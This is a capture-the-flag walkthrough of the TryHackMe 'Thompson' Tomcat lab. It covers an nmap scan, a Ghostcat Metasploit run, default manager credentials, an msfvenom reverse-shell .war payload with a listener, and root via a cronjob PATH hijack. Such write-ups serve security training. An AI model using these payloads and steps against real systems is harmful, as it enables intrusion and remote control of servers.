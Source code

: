 ```yaml
---
layout: post
title: Walkthrough - Thompson
published: true
---
```


Security, Apache Tomcat. Boot2root machine for FIT and bsides guatemala CTF.

[https://tryhackme.com/room/bsidesgtthompson](https://tryhackme.com/room/bsidesgtthompson)

* * *

## Notes

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
```

```
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.48.147
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1472673232000"
Last-Modified: Wed, 31 Aug 2016 19:53:52 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

- `gobuster dir -u http://10.10.48.147:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 --no-error -x txt,php,html`

checking out `/manager/` we get a login screen, trying creds there doesnt work but clicking cancel give us a hint. 
- `<user username="tomcat" password="s3cret" roles="manager-gui"/>` we can use these to login.

Now that we have access we can upload a java .war shell and setup a `pwncat` listener to recieve it

- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.2.127.225 LPORT=6969 -f war -o shell.war`
- `pwncat-cs -lp 6969`

![](/assets/thompson01.png)

* * * 

## What is the user flag?

![](/assets/thompson02.png)

* * * 

## What is the root flag?

- root is running a cronjob `*  *    * * *   root    cd /home/jack && bash id.sh`

- `id.sh`

```
#!/bin/bash
id > test.txt
```

this script is just running id but it isnt using the intire path to id so if we create another script called id we can open up a root shell

![](/assets/thompson03.png)

* * * 

